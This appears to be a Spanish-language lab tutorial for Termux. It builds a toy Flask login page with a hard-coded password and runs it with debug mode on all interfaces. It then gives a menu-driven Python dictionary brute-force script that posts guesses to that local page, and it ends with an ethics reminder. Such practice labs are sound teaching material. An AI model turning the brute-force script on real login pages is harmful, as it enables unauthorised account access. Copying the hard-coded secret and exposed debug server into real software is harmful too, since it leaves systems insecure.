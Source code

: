# LABORATORIO365
 
### 1. Configuración de Termux

Primero, asegúrate de tener Python y Flask instalados en Termux. Si no lo has hecho, ejecuta los siguientes comandos:

```bash
pkg install python
pip install Flask
```

### 2. Crear la Página Web

Crea un archivo llamado `app.py` que contendrá el servidor Flask y la lógica de la página de inicio de sesión:

```bash
nano app.py
```

Luego, inserta el siguiente código:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

# Contraseña correcta
correct_password = "secreta123"

# Página de inicio de sesión
html_template = """
<!doctype html>
<html>
<head>
    <title>Prueba de Penetración</title>
</head>
<body>
    <h1>Iniciar Sesión</h1>
    <form method="POST">
        <input type="password" name="password" placeholder="Contraseña" required>
        <button type="submit">Entrar</button>
    </form>
    {% if message %}
        <p>{{ message }}</p>
    {% endif %}
</body>
</html>
"""

@app.route('/', methods=['GET', 'POST'])
def login():
    message = ""
    if request.method == 'POST':
        password = request.form.get('password')
        if password == correct_password:
            message = "¡Acceso concedido!"
        else:
            message = "Contraseña incorrecta. Inténtalo de nuevo."
    return render_template_string(html_template, message=message)

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

Este código crea una simple página web que solicita una contraseña. Si se introduce la contraseña correcta (`secreta123`), se concede acceso; de lo contrario, se muestra un mensaje de error.

### 3. Ejecutar la Aplicación

Guarda y cierra el archivo `app.py`. Luego, ejecuta el servidor Flask con el siguiente comando:

```bash
python app.py
```

La aplicación estará disponible en `http://127.0.0.1:5000/`.

### 4. Crear un Script en Python para Averiguar la Contraseña

Ahora, crearemos un script en Python que intente averiguar la contraseña. Crea un nuevo archivo llamado `brute_force.py`:

Aquí tienes una versión mejorada del script `brute_force.py`, que incluye animaciones, colores, un logo ASCII de Kali Linux, y un menú interactivo. Para lograr esto, usaremos la biblioteca `colorama` para el color y un bucle que permita ejecutar múltiples ataques de fuerza bruta.

### 1. Instalar la biblioteca `colorama`

Primero, asegúrate de que tienes `colorama` instalado en tu entorno Termux:

```bash
pip install colorama
```

### 2. Modificar el archivo `brute_force.py`

Aquí tienes el nuevo contenido para `brute_force.py`:

```python
import requests
import time
import os
from colorama import Fore, Style, init

# Inicializar colorama
init(autoreset=True)

# Logo ASCII de Kali Linux
kali_logo = r"""
      _  __          _   _       _           
     | |/ /__ _   _| |_| | ___ | | ___ _ __  
     | ' // _ \ | | | __| |/ _ \| |/ _ \ '_ \ 
     | . \  __/ |_| | |_| | (_) | |  __/ | | |
     |_|\_\___|\__,_|\__|_|\___/|_|\___|_| |_|
             by RED365
"""

# Función para imprimir el menú
def menu():
    print(Fore.GREEN + kali_logo)
    print(Fore.GREEN + "Menú:")
    print("1. Realizar fuerza bruta")
    print("2. Salir")
    choice = input("Elige una opción: ")
    return choice

# Función principal para el ataque de fuerza bruta
def brute_force_attack(url):
    with open('diccionario.txt', 'r') as f:
        passwords = f.read().splitlines()  # Leer contraseñas desde el diccionario

    for password in passwords:
        print(Fore.GREEN + f"\nProbando contraseña: {password}...")
        time.sleep(1)  # Simula un pequeño retraso para la animación
        response = requests.post(url, data={"password": password})

        if "¡Acceso concedido!" in response.text:
            print(Fore.GREEN + f"Contraseña encontrada: {password}")
            break
        else:
            print(Fore.RED + f"Contraseña incorrecta: {password}")

# Ciclo principal
while True:
    user_choice = menu()
    if user_choice == "1":
        brute_force_attack("http://127.0.0.1:5000/")
    elif user_choice == "2":
        print(Fore.GREEN + "Saliendo...")
        break
    else:
        print(Fore.RED + "Opción no válida. Inténtalo de nuevo.")
```

### 3. Cómo funciona el script

- **Logo y Colores:** Utiliza ANSI escape codes para mostrar el logo de Kali Linux y los textos en verde y rojo.
- **Menú Interactivo:** Ofrece opciones para realizar un ataque de fuerza bruta o salir.
- **Animaciones:** Cada vez que se prueba una contraseña, hay un pequeño retraso (`time.sleep(1)`) para simular la "animación" de prueba.
- **Reintentos:** Después de realizar un ataque de fuerza bruta, el script vuelve al menú, permitiendo realizar otro ataque o salir.

### 4. Ejecución del Script

Asegúrate de que tanto `brute_force.py` como `diccionario.txt` estén en el mismo directorio y luego ejecuta el script:

```bash
python brute_force.py
```

Ahora tendrás un programa más interactivo y visualmente atractivo que realiza ataques de fuerza bruta en la página de inicio de sesión. ¡Recuerda usarlo de manera responsable!

### 6. Consideraciones Éticas

Recuerda que realizar pruebas de penetración y ataques de fuerza bruta deben hacerse solo en entornos donde tengas permiso explícito para hacerlo. El uso indebido de estas técnicas puede tener consecuencias legales.

### Resumen

Hemos creado una sencilla aplicación web de inicio de sesión con Flask y un script en Python para intentar averiguar la contraseña mediante un ataque de fuerza bruta. Esto es solo para fines educativos y de práctica. ¡Asegúrate de usarlo de manera responsable!
